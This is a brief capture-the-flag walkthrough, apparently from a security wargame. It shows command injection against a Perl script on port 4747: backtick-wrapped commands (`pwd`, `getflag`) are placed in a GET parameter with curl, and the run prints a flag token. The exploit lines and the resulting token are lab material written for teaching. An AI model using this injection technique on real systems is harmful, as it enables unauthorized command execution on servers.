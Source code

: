 in this level, we have a pl script that contains a var that will be echo
it's accessible on port 4747 if we do a request by changing the value of x variable, we can print different things with a ```GET``` method  
```curl -X GET http://localhost:4747?x='`pwd`'```
/var/www/level04 -> a different path for the level04
so we can understand that you can access content from level04 in the server
```cd /var/www/level04``` ```getflag```
and nope, it don't works.
```curl -X GET http://localhost:4747?x='`getflag`'```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
